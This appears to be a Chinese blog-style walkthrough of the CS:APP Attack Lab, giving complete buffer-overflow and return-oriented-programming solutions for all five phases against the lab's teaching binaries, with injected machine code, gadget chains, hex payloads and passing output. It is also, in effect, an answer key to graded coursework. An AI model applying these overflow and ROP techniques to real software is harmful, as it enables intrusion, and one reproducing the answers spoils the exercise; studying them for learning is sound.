






## 简介

Attack Lab 和 [Bomb Lab](bomblab.md) 一样同属于《深入理解计算机》第三章。这两个 Lab 侧重点不一样， Bomb Lab 侧重于使用 `GDB` 进行调试和理解汇编代码， Attack Lab 则侧重于缓冲区溢出攻击这一点（对应于书中 `P194` 开始的 `3.10.3`, `3.10.4` 这两节）。

## 知识点回顾

缓冲区溢出应该刚开始学习 C 语言时最常见的问题了，根本原因是 C 语言不检测数组是否越界，而后来学过的其他语言基本都支持越界检测。结合本章刚刚学过的 C 语言数组对应的汇编代码可知， C 语言中将数组当作指针，并没有存储数组长度的信息，所以无法支持越界检测这一特性。针对缓冲区溢出攻击 `GCC` 自动使用以下三种防范机制 `P198`：

- 栈随机化：栈的位置每次运行时都随机变化，不会固定
- 栈破坏检测：在栈帧中任意局部缓冲区与栈状态之间存储一个特殊的随机值，在函数返回前会检测该值是否被改变了，如果被改变则会异常终止。可以通过使用 `-fno-stack-protector` 选项阻止 `GCC` 进行栈破坏检测
- 限制可执行代码区域：栈可以被标记为可读和可写，但是不可执行，而检查页是否可执行由硬件来完成，效率上没有损失

## 准备

可以在 [官网](http://csapp.cs.cmu.edu/3e/labs.html) 下载 Attack Lab 相关的程序。

开始前需要阅读 [Attack Lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) ，因为 Lab 程序不是很具体，无法得知需要做什么。

本次需要使用的程序依旧需要在 Docker 中运行，将本地 Lab 的目录挂载进容器中即可：

```shell script
docker run -ti -v {PWD}:/csapp ubuntu:18.04
```

进入容器后需要安装 `gdb` ：

```shell script
apt-get update && apt-get -y install gdb
```

然后就可以愉快的开始闯关了。

## 闯关

### 第一关

第一关不需要注入代码，只需要让函数 `test` 在调用函数 `getbuf` 后返回到函数 `touch1` 开始继续执行即可。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

目标很明确也很简单，所需要做的就是拿到函数 `touch1` 开始的地址，然后通过缓冲区溢出的方式将这个地址恰好放到 `getbuf` 返回地址所在的位置。

先使用 `GDB` 运行 `ctarget`: `gdb ./ctarget`

然后查看函数 `touch1` 的汇编代码，可以得到需要将 `getbuf` 返回地址替换为 `0x4017c0` 。

```shell script
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x4017c0 <+0>:   sub    $0x8,%rsp
   0x4017c4 <+4>:   movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x4017ce <+14>:  mov    $0x4030c5,%edi
   0x4017d3 <+19>:  callq  0x400cc0 <puts@plt>
   0x4017d8 <+24>:  mov    $0x1,%edi
   0x4017dd <+29>:  callq  0x401c8d <validate>
   0x4017e2 <+34>:  mov    $0x0,%edi
   0x4017e7 <+39>:  callq  0x400e40 <exit@plt>
```

再查看函数 `getbuf` 的汇编代码，可以知道栈中分配了 `40` 字节的空间，并且会通过函数 `Gets` 将输入字符串从 `%rsp` 开始放置，即我们需要将 `0x4017c0` 写入 `%rsp + 40` 对应的地址，而其他地址的数据无所谓，可以使用任意值。

```shell script
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x4017a8 <+0>:   sub    $0x28,%rsp
   0x4017ac <+4>:   mov    %rsp,%rdi
   0x4017af <+7>:   callq  0x401a40 <Gets>
   0x4017b4 <+12>:  mov    $0x1,%eax
   0x4017b9 <+17>:  add    $0x28,%rsp
   0x4017bd <+21>:  retq
```

综上可得出一个合法的解，并将其存储在 `phase1.txt` 中
- [Attack Lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) 中提示我们使用的是小端序程序，所以需要按字节反序传给 `hex2raw` 程序，再传给 `ctarget` （因为部分字节无法通过键盘输入，所以需要通过转换的方式传给 `ctarget` ）。



然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### 第二关

第二关需要注入一小段代码，让函数 `test` 在调用函数 `getbuf` 后返回到函数 `touch2` 开始继续执行，并且需要将寄存器 `%rdi` 的值设置为 `cookie` 对应的值，本地是 `cookie.txt` 文件中的值 `0x59b997fa` 。
- 限制仅能通过 `ret` 指令进行控制转移，不能使用 `jmp` 和 `call` 等

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

首先还是通过 `(gdb) disas touch2` 获取函数开始的地址 `0x4017ec`

然后就是思考如何通过 `ret` 进行控制转移， `ret` 指令会将栈顶的值出栈，并跳转到该值所指向的地址，所以思路就很明确了。

在 `getbuf` 返回的时候跳转到我们注入代码的开始位置（为了方便及减少输入字符串的长度，我们使用 `getbuf` 内部分配的 `40` 个字节。因为 `ctarget` 禁止了栈随机化，所以此方法可行），注入代码需要将寄存器 `%rdi` 的值设置为 `0x59b997fa` ，再将 `0x4017ec` 入栈，最后再执行 `ret` 。

对应的汇编代码如下，将其保存在 `phase2_code.s` 中：

```assemble
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

现在需要将其转换成对应的机器代码：

```shell script
# 将汇编代码翻译成机器代码
> gcc -c phase2_code.s
# 反汇编代码
> objdump -d phase2_code.o

phase2_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

可得需要注入的机器代码如下：

```
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
```

此时我们需要找到 `getbuf` 内部分配的 `40` 个字节的起始地址，可以在 `0x4017ac` 处（`getbuf` 中分配好 `40` 个字节后第一条指令的地址）打上断点，查看此时寄存器 `%rsp` 的值即可。

```shell script
# 设置断点
(gdb) break * 0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
# 调试 ctarget
(gdb) run -q
Starting program: /csapp/attacklab/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
# 查看寄存器 $rsp 中的值
(gdb) print /x $rsp
$1 = 0x5561dc78
```

综上可得出一个合法的解，并将其存储在 `phase2.txt` 中



然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 69 64 65 61 6C 69 73 6D 2D 78 78 6D 6D 78 78 2D 6D 73 69 6C 61 65 64 69 78 DC 61 55 00 00 00 00
```

### 第三关

第三关同样需要注入一小段代码，让函数 `test` 在调用函数 `getbuf` 后返回到函数 `touch3` 开始继续执行，并且需要将以寄存器 `%rdi` 开始的字符串设置为 `cookie` 对应的值的 16 进制，本地是 `cookie.txt` 文件中的值 `0x59b997fa` ，即该字符串需要为 `59b997fa` ，对应的字节数据为 `35 39 62 39 39 37 66 61 00` （最后要加上字符 `\0`）。
- 限制仅能通过 `ret` 指令进行控制转移，不能使用 `jmp` 和 `call` 等

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可以发现函数 `touch3` 会调用函数 `hexmatch` ，因此栈中的数据可能会被覆盖，所以我们需要将字符串的数据存储在 `%rsp + 48` 处，避免数据被覆盖。

通过 `(gdb) disas touch3` 获取函数开始的地址 `0x4018fa` 。

第二关中我们得出：`%rsp = 0x5561dc78` ，那么可得出字符串起始地址 `%rsp + 48 = 0x5561dca8` 。

那么本关需要注入的代码为：

```assemble
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

可得需要注入的机器代码如下：

```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
```

综上可得出一个合法的解，并将其存储在 `phase3.txt` 中



然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 69 64 65 61 6C 69 73 6D 2D 78 78 6D 6D 78 78 2D 6D 73 69 6C 61 65 64 69 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### 中场学习

第四关和第五关要使用 `rtarget` 进行攻击，而这个程序开启了栈随机化，并且限制栈不可执行，所以难度大大增加。

[Attack Lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) 提示我们可以使用 `ROP` (`return-oriented programming`) 技术来执行我们需要的指令， `ROP` 是在找到程序中以 `ret` 结尾的一段指令序列，这种指令序列称作 `gadget` 。



例如存在如下函数：

```c
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```

其对应的汇编代码为：

```assemble
0000000000400f15 <setval_210>:
  400f15: c7 07 d4 48 89 c7  movl $0xc78948d4,(%rdi)
  400f1b: c3                 retq
```

其中字节序列 `48 89 c7` 对应汇编指令 `movq %rax, %rdi` ，我们可以利用这样的思路执行本不存在的指令。

由于我们通过缓冲区溢出的方式重写了栈中的数据，而 `pushq`, `popq`, `ret` 都是通过栈进行相关处理的，所以我们可以将所需要的数据或者所需执行的 `gadget` 地址编排好放入栈中

[Attack Lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) 已经整理好了我们可能会需要的指令及其字节序列


### 第四关

第四关需要使用 `rtarget` 进行第二关的操作，并有提示：

- 使用 `start_farm` 和 `mid_farm` 中间的函数
- 只需要使用两个这种操作即可通过
- 字节 `90` 对应的汇编代码是 `nop` ，效果是 `PC = PC + 1`

我们先查看本关所需的函数的机器指令序列，运行 `objdump -d rtarget --start-address 0x0000000000401994 --stop-address 0x00000000004019d0 | cut -d $'\t' -f2 | grep c3 -n3` 可以获得 `start_farm` ~ `mid_farm` 内的机器代码片段，并高亮 `c3`

```shell script
6-
7-0000000000401994 <start_farm>:
8-b8 01 00 00 00
9:c3
10-
11-000000000040199a <getval_142>:
12-b8 fb 78 90 90
13:c3
14-
15-00000000004019a0 <addval_273>:
16:8d 87 48 89 c7 c3
17:c3
18-
19-00000000004019a7 <addval_219>:
20-8d 87 51 73 58 90
21:c3
22-
23-00000000004019ae <setval_237>:
24-c7 07 48 89 c7 c7
25:c3
26-
27-00000000004019b5 <setval_424>:
28-c7 07 54 c2 58 92
29:c3
30-
31-00000000004019bc <setval_470>:
32-c7 07 63 48 8d c7
33:c3
34-
35:00000000004019c3 <setval_426>:
36-c7 07 48 89 c7 90
37:c3
38-
39-00000000004019ca <getval_280>:
40:b8 29 58 90 c3
41:c3
```

从中我们检查所有 `c3` 前的序列（忽略 `c3` 前的 `90`），发现可以产生如下指令（`movl` 指令是对应的 `movq` 指令的后缀）：

| 函数 | 可产生指令 | 对应地址 |
| --- | --- | --- |
| `getval_142` | - | - |
| `addval_273` | `movq %rax, %rdi` | `0x4019a2` |
| `addval_219` | `popq %rax` | `0x4019ab` |
| `setval_237` | - | - |
| `setval_424` | - | - |
| `setval_470` | - | - |
| `setval_426` | `movq %rax, %rdi` | `0x4019c5` |
| `getval_280` | `popq %rax` | `0x4019cc` |

可以发现我们只能使用两个指令 `movq %rax, %rdi` 和 `popq %rax` 来将 `cookie` 对应的值 `0x59b997fa` 写入 `%rdi` 中，那么很明显就是预先将 `0x59b997fa` 写入栈中，然后通过 `popq %rax` 从栈中放到寄存器 `%rax` 中，然后通过 `movq %rax, %rdi` 将其移动到寄存器 `%rdi` 中。

所以我们需要依次将以下数据写入到 `getbuf` 返回地址开始的位置中：

```shell script
# 该 gadget 对应执行的指令为： popq %rax
cc 19 40 00 00 00 00 00
# 对应弹出的数据 0x59b997fa
fa 97 b9 59 00 00 00 00
# 该 gadget 对应执行的指令为： movq %rax, %rdi
c5 19 40 00 00 00 00 00
# 对应函数 touch2 的入口地址
ec 17 40 00 00 00 00 00
```

综上可得出一个合法的解，并将其存储在 `phase4.txt` 中



然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### 第五关

第五关需要使用 `rtarget` 进行第三关的操作，即寄存器 `%rdi` 指向一个字符串的起始地址，该字符串必须为 `59b997fa` ，对应的字节数据为 `35 39 62 39 39 37 66 61 00` （最后要加上字符 `\0`）。

我们首先整理出可以使用的指令（使用 `start_farm` 和 `end_farm` 中间的函数产生，忽略指令 `nop`, `andb`, `orb`, `cmpb`, `testb` ，这些指令无其他效果，仅会增加 `PC`）：

| 函数 | 可产生指令 | 对应地址 |
| --- | --- | --- |
| `getval_142` | - | - |
| `addval_273` | `movq %rax, %rdi` | `0x4019a2` |
| `addval_219` | `popq %rax` | `0x4019ab` |
| `setval_237` | - | - |
| `setval_424` | - | - |
| `setval_470` | - | - |
| `setval_426` | `movq %rax, %rdi` | `0x4019c5` |
| `getval_280` | `popq %rax` | `0x4019cc` |
| `add_xy` | `lea (%rdi, %rsi, 1), %rax` | `0x4019d6` |
| `getval_481` | `popq %rsp; movl %eax, %edx;` | `0x4019dc` |
| `setval_296` | - | - |
| `addval_113` | - | - |
| `addval_490` | - | - |
| `getval_226` | - | - |
| `setval_384` | - | - |
| `addval_190` | `movq %rsp, %rax` | `0x401a06` |
| `setval_276` | - | - |
| `addval_436` | `movl %ecx, %esi` | `0x401a13` |
| `getval_345` | - | - |
| `addval_479` | - | - |
| `addval_187` | `movl %ecx, %esi` | `0x401a29` |
| `setval_248` | - | - |
| `getval_159` | `movl %edx, %ecx` | `0x401a34` |
| `addval_110` | `movl %esp, %eax` | `0x401a3c` |
| `addval_487` | `movl %eax, %edx` | `0x401a42` |
| `addval_201` | - | - |
| `getval_272` | - | - |
| `getval_155` | - | - |
| `setval_299` | - | - |
| `addval_404` | - | - |
| `getval_311` | `movl %edx, %ecx` | `0x401a69` |
| `setval_167` | - | - |
| `setval_328` | - | - |
| `setval_450` | - | - |
| `addval_358` | `movl %esp, %eax` | `0x401a86` |
| `addval_124` | - | - |
| `getval_169` | - | - |
| `setval_181` | - | - |
| `addval_184` | - | - |
| `getval_472` | - | - |
| `setval_350` | `movl %rsp, %rax` | `0x401aad` |

去重整理后可得我们可以使用的指令如下：

| 指令 | 对应地址 |
| --- | --- |
| `movq %rax, %rdi` | `0x4019c5` |
| `popq %rax` | `0x4019cc` |
| `lea (%rdi, %rsi, 1), %rax` | `0x4019d6` |
| `popq %rsp; movl %eax, %edx;` | `0x4019dc` |
| `movq %rsp, %rax` | `0x401a06` |
| `movl %ecx, %esi` | `0x401a13` |
| `movl %edx, %ecx` | `0x401a34` |
| `movl %esp, %eax` | `0x401a3c` |
| `movl %eax, %edx` | `0x401a42` |
| `movl %rsp, %rax` | `0x401aad` |

由于开了栈随机化，所以无法使用绝对地址定位栈中的地址，我们需要通过相对地址确定字符串的起始地址，而我们又使用 `ROP` 进行攻击，所以字符串需要放在末尾，计算这个地址可以使用 `lea (%rdi, %rsi, 1), %rax` 这个指令。

为此我们还需要先执行指令 `movq %rax, %rdi` 和 `movl %ecx, %esi` ，由于 `movl` 会将高 32 位置 `0` ，所以我们将栈指针的地址存在寄存器 `%rdi` 中（可以通过执行 `movq %rsp, %rax; movq %rax, %rdi;` 实现），将地址偏移量存在寄存器 `%ecx` 中（可以通过 `popq %rax; movl %eax, %edx; movl %edx, %ecx; movl %ecx, %esi;` 实现）。

综上可得一种合法的执行顺序如下：

```assemble
popq %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
movq %rsp, %rax
movq %rax, %rdi
lea (%rdi, %rsi, 1), %rax
movq %rax, %rdi
# 先存放函数 touch3 的入口地址
# fa 18 40 00 00 00 00 00
# 这里开始放字节数据：
# 35 39 62 39 39 37 66 61 00
```

从中可得：字节数据起始地址相对执行 `movq %rsp, %rax` 这行指令时 `%rsp` 的地址偏移量为 `0x20`

综上可得出一个合法的解如下：

```shell script
69 64 65 61 6c 69 73 6d
2d 78 78 6d 00 00 00 00
00 00 00 00 6d 78 78 2d
6d 73 69 6c 61 65 64 69
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```



将其存入 `phase5.txt` 并验证正确性：

```shell script
> ./hex2raw -i phase5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

_注：以上 5 张栈图均按从左往右的顺序存储字节数据（书中是按照从右往左存储，这里偷懒不想再反序了）_

## 小结

Attack Lab 总体上来说比 Bomb Lab 简单一点，这个体力活占得更多，因为总共就几种方法，可以根据需要实现的效果和已有的指令轻易推导出来可以如何组织这些指令。
